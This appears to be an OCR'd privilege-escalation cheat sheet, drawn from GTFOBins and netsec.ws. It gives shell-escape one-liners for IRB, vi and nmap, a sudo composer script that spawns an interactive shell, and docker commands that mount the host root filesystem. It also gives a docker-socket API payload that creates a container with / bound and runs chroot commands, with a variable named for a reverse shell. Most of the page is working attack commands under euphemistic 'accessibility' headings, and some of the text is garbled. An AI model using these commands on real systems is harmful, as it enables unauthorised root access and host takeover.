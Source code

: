 ```text
(From within IRB)
exec "/bin/sh"
```


```text
(From within vi)
:!bash
```

```text
(From within vi)
:set shell=/bin/bash:shell
```

```text
(From within nmap)
!sh
```

 [netsec.ws](http://netsec.ws/?p=337)

## Improve accessibility

Help: https://gtfobins.github.io/

### Increasing accessibility with composer

```text
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```

### Increasing access with docker

You must be logged in with an application that is a member of the docker group.

```text
docker run -v /root:/mnt -it ubuntu
```

Or

```text
docker run --rm -it --privileged nginx bash
mkdir /mnt/fsroot
mount /dev/sda /mnt/fsroot
```

### Increasing access with docker socket


```text

Checking docker exposure

curl -s --unix-socket /var/run/docker.sock http://localhost/images/json

We do the following commands in the script.

cmd="whoami"
payload="[\"/bin/sh\",\"-c\",\"chroot /mnt sh -c \\\"$cmd\\\"\"]"
response=$(curl -s -XPOST --unix-socket /var/run/docker.sock -d "{\"Image\":\"sandbox\",\"cmd\":$payload, \"Binds \": [\"/:/mnt:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create)

revShellContainerID=$(echo "$response" | cut -d'"' -f4)

```